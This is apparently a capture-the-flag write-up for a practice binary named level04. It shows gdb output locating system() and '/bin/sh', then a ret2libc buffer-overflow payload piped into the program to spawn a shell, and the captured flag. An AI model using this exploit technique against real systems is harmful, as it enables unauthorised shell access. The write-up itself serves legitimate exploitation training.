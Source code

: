 To follow child : in gdb `set follow-fork-mode child`

```C
(gdb) r
Starting program: /home/users/level04/level04 
[New process 2494]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2494]
0x41326641 in ?? ()
```

first we need to set a breakpoint at main, then run :
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

to find the string "/bin/sh" we can use `info proc mappings` and then :

```
(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

payload = [156bytes padding] + [addr of system()] + [4bytes padding] + [addr of "/bin/sh"]

```
(python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "BBBB" + "\xec\x97\xf8\xf7"'; cat) | ./level04
```

flag = `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN`